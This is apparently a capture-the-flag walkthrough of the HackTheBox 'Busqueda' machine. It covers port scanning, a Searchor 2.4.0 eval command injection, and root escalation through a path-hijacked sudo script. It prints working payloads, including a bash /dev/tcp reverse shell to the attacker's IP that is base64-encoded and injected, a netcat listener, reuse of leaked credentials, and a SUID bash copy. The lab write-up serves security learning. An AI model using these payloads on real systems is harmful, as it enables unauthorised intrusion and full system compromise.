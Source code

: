 ```yaml
---
author: "0xt0pus"
title: "HackTheBox Busqueda machine Walkthrough"
date: "2025-01-20"
description: ""
tags: ["Hackthebox", "Machine-Walkthrough"]
cover:
    image: "/writeups/busqueda-HackTheBox/cover.jpg"
ShowToc: true
TocOpen: false
---
```



## Enumeration

Run nmap all port scanning with the following command:

```
nmap -p- 10.10.11.208 --min-rate 2500 -T4 -oN nmap/allPorts.txt
```

The following is the nmap all ports output:

![](/writeups/busqueda-HackTheBox/2.png)


As the port 22 and 80 are open. Now run the service enumeration to find out the version of services running on the target. 
The following command was used for the service version enumeration. 
```
nmap -A 10.10.11.208 -p 22,80 -oN nmap/ServiceVersion.txt
```

The result of the command shows below:
![](/writeups/busqueda-HackTheBox/3.png)

This shows the `searcher.htb` as the hostname. So updated it in the `/etc/hosts` file. 

Visited the website, which is being shown below:

![](/writeups/busqueda-HackTheBox/5.png)


At the end, the version of the Searchor is shown, which is `Searchor 2.4.0`. Quickly searched if there's any vulnerabilities related to this version. 
I came to know about the Command Injection vulnerability in this version and found an exploit code for that. 

The exploit code can be used to get a reverse shell in easy way. But there's another manual way, through which the command injection vulnerability can be exploited. I have explained both ways below. 

## Exploitation

### Reverse Shell Through the Exploit Code:

The `exploit.sh` is being downloaded from the following Github repository. 
Link: https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection

Command:
```
./exploit.sh http://searcher.htb 10.10.16.17  # For Exploiting the Vulnerability
nc -lvnp 9001 # Listener for the reverse shell
```


The reverse shell is obtained as shown:
![](/writeups/busqueda-HackTheBox/6.png)


### Reverse Shell in the Manual Way

Opened Burp Suite for gaining access in manual way. 

The site is sending POST request to `/search` with the parameters `engine` and `query` as shown below:
![](/writeups/busqueda-HackTheBox/7.png)

Added a payload with the value of the query parameter to check if its behaviour changes with special characters. 

Added special character list by SecList as the list:
![](/writeups/busqueda-HackTheBox/8.png)

After checking I found that it was not giving any result for the characters `' and \`. So, The logic here was, it was executing some python command like eval. 
The logic can be applied that it was doing something like this:
```
eval("print('a')")
```

So, according to the logic the following command will print `aHello`. 
```
a')+print("Hello")#
```

So, tried this
![](/writeups/busqueda-HackTheBox/9.png)

It printed `Hello`. It means it is executing out python command. 
In order to get command execution I tried the following command:

```python
__import__('os').system('<CMD>')

__import__('os').system('id')

# Final Payload

a')+__import__('os').system('id')#

```

Run the above after URL encoding and we got a code execution as shown below:
![](/writeups/busqueda-HackTheBox/10.png)

Now, we have to get a reverse shell somehow. 

I used the following bash reverse shell:
```bash
bash -i >& /dev/tcp/10.10.16.157/9001 0>&1


# Encoding it as Base64 

echo 'bash -i >& /dev/tcp/10.10.16.157/9001 0>&1' | base64

```

The final Payload:
```bash
┌──(root㉿kali)-[~/Desktop/htb/Busqueda]
└─# echo 'bash -i &> /dev/tcp/10.10.16.17/9001  0>&1  ' | base64
YmFzaCAtaSAmPiAvZGV2L3RjcC8xMC4xMC4xNi4xNy85MDAxICAwPiYxICAK
```

The following will be send as the request
```
a')+__import__('os').system('echo "YmFzaCAtaSAmPiAvZGV2L3RjcC8xMC4xMC4xNi4xNy85MDAxICAwPiYxICAK" | base64 -d | bash')#
```

Got the reverse shell as shown below:
![](/writeups/busqueda-HackTheBox/11.png)

## Privilege Escalation 

After gaining the initial access, I explored the current directory. It contain a .git folder. The config of the git repository contains a password as shown below:
![](/writeups/busqueda-HackTheBox/12.png)

I tried logging in for the current user with SSH, and I was successful because this was the password for the current user svc. 
I checked for `Sudo` privilege escalation and found that the current user can run the `system-checkup.py` as root. 
The following shows the result of `sudo -l`:
![](/writeups/busqueda-HackTheBox/13.png)

I tried, checking the content of this script, but the file was not readable by the current user as shown:

![](/writeups/busqueda-HackTheBox/15.png)

The file can only be executed, so I tried executing the file as root user with the following command:

```
sudo -u root /usr/bin/python3 /opt/scripts/system-checkup.py
```

The following three commands can be executed with it as shown:
![](/writeups/busqueda-HackTheBox/16.png)

Seems like the `docker-inspect` can not be executed as it is:
![](/writeups/busqueda-HackTheBox/17.png)

I checked online for its usage and the following command can be used to get details:
```
docker inspect --format='{{json .Config}}' $INSTANCE_ID

# Adjust it according to our usage:

sudo -u root /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' 960873171e2e
```

Run the above command and got this data as shown:
![](/writeups/busqueda-HackTheBox/19.png)

This gave us another password, which initially didn't understand. But after further enumeration, I figured out that there was another website running on the `gitea.searcher.htb`. This was found on the apache2 enabled sites as shown:
![](/writeups/busqueda-HackTheBox/20.png)

Added this website in the `/etc/hosts` as well and visited it. This was asking for the username and password. So, used administrator as the username and the above found password as the password. I was able to logged in as an administrator here. 

The script we found earlier were listed here and were readable as shown below:
![](/writeups/busqueda-HackTheBox/21.png)

So, we can analyse these files to find any vulnerability. 

It is found that when the `full-checkup` argument is provided to the script, it runs `./full-checkup.sh` without full path. So, we can create our own file in any writeable directory and can get reverse shell as root, as root will be executing that file. 


The vulnerable part of the code:
![](/writeups/busqueda-HackTheBox/23.png)

Created the following code in the `/dev/shm` with name `full-checkup.sh`:
```bash
#!/bin/bash
cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```

The execute permission is being given to the script and run the following command:
```
sudo -u root /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

Now, the root shell is copied to the `/tmp` folder as shown below. The bash shell is being used with the following command.

```bash
/tmp/bash -p
```

The following shows the result of the commands:
![](/writeups/busqueda-HackTheBox/24.png)

So, this gives us root access of the machine. 
